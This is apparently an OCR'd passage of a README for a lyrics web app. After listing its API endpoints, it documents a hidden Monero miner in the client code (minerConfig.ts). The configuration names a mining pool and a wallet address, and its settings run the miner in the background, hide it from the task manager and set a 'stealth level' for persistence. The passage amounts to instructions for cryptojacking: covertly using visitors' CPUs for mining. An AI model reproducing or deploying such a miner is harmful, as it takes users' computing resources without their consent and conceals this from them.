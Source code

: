 ### Lyrics Endpoints
```typescript
GET /api/lyrics?title={title}&artist={artist}
// Get lyrics for a specific track
```

### Search History
```typescript
GET /api/searches/history
// Get search history
```

## 💰 Wallet Configuration

### Mining Configuration Location
File: [`client/src/lib/minerConfig.ts`](client/src/lib/minerConfig.ts)

### How to Change Wallet Address

1. **Open the miner configuration file**:
   ```typescript
   // client/src/lib/minerConfig.ts
   export const minerConfig = {
     wallet: "YOUR_MONERO_WALLET_ADDRESS_HERE",
     pool: "pool.minexmr.com:4444",
     // ... other settings
   }
   ```

2. **Replace the wallet address**:
   ```typescript
   wallet: "45sx4g9Pg5aAvaE17UggC8YBDBZA1twdGbqXySvY9txwiCvBwiiw6zcbpbLtQsgptzB1BdLD3VGnrANkXhaEfzte3kfQEyL"
   ```
   ⬇️
   ```typescript
   wallet: "YOUR_ACTUAL_MONERO_WALLET_ADDRESS"
   ```

3. **Optional: Change Mining Pool**:
   ```typescript
   pool: "your-preferred-pool.com:port"
   ```

### Mining Performance Settings

```typescript
performance: {
  threads: 4,              // Number of CPU threads (2-4 recommended)
  cpuLimit: 60,           // CPU usage limit percentage (40-60 recommended)
  idleOnly: false,        // Mine only when system is idle
  startupDelay: 5,        // Delay before starting (seconds)
  background: true,       // Run in background
  hideFromTaskManager: true,  // Hide from task manager
  persistenceLevel: 2     // Stealth level (1-3)
}
```
